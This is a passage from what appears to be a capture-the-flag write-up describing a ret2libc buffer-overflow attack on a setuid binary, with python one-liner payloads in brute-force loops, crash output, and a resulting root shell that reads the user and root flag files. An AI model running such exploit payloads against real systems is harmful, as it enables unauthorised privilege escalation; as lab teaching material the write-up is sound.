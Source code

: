 Our payload will look like this: “112 As then the address of system then 4 bytes of junk and finally the address of /bin/sh”
To calculate the address of system and /bin/sh I simply took the address of the libc from ldd directly and used it at the base. Then you just do the sum of base + system and base + /bin/sh like we saw above.


```
while true; do /usr/local/bin/ovrflw $(python -c 'print "A" * 112 + "\x10\xb3\x5b\xb7" + "A" * 4 + "\xac\xdb\x6d\xb7"');sleep 0.1;done
Les deux loop fonctionnent...
```
```
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Trace/breakpoint trap (core dumped)

ls
dr.php5
shell.php5
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
cat /home/harry/user.txt
29161ca87aa3d34929dc46efc40c89c0
cat /root/root.txt
6bcb9cff749c9318d2a6e71bbcf30318

```







